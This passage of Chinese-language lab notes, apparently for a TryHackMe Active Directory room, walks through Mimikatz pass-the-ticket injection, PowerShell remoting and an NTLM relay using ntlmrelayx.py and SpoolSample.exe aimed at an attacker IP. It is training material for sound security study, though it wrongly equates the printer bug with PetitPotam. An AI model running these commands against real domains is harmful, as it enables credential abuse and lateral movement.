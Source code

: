         3. **注入票据 (Pass-the-Ticket)**: 使用 Mimikatz 将伪造好的两张 TGS 票据注入到当前会话中。
            
            PowerShell
            
            ```
            # 在 Mimikatz 中
            kerberos::ptt TGS_t1_trevor.jones@...http...kirbi
            kerberos::ptt TGS_t1_trevor.jones@...wsman...kirbi
            ```
            
    - **访问目标 (Accessing the Target)**: 票据注入后，当前会话即拥有了模拟 `t1_trevor.jones` 访问 `THMSERVER1` 的权限，可以直接建立一个 PowerShell 远程会话。
        
        PowerShell
        
        ```
        Enter-PSSession -ComputerName thmserver1.za.tryhackme.loc
        whoami # 输出应为 za\t1_trevor.jones
        ```
        

---

#### 利用认证中继 (Exploiting Authentication Relaying)

- 基本原理 (Fundamentals)：
    
    此攻击的核心是强制一台主机（受害者 A）向攻击者控制的机器进行认证，然后将这个认证过程“中继”到另一台主机（受害者 B），从而以受害者 A 的身份登录受害者 B。
    
- 打印机漏洞 (The Printer Bug)：
    
    MS-RPRN 协议中的一个“功能”（俗称 Print Spooler 漏洞或 PetitPotam），允许任何经过身份验证的域用户强制任何运行了“Print Spooler”服务的主机向任意目标发起认证（通常是 NTLM）。
    
- **示例：通过打印机漏洞中继认证 (Example: Relaying Authentication via the Printer Bug)**：
    
    - **发现 (Discovery)**: BloodHound 发现计算机账户 `THMSERVER2$` 对 `THMSERVER1` 拥有管理员权限。同时，通过 WMI 查询或 Nmap 扫描确认 `THMSERVER2` 正在运行 Print Spooler 服务，且 `THMSERVER1` 和 `THMSERVER2` 的 SMB 服务均未强制要求签名。
    - **设置中继 (Setting up the Relay)**: 在攻击机上，使用 Impacket 工具集中的 `ntlmrelayx.py` 来监听来自 `THMSERVER2` 的认证，并将其转发给 `THMSERVER1`。
        
        Bash
        
        ```
        # -t 指定中继目标, -smb2support 启用 SMBv2 支持
        python3 ntlmrelayx.py -smb2support -t smb://<THMSERVER1_IP>
        ```
        
    - **强制认证 (Coercing Authentication)**: 在一台已控主机上，使用 `SpoolSample.exe` 或其他类似工具触发 `THMSERVER2` 的打印机漏洞，强制其向攻击机的 `ntlmrelayx.py` 监听器进行认证。
        
        PowerShell
        
        ```
        SpoolSample.exe THMSERVER2.za.tryhackme.loc <ATTACKER_IP>
        ```
        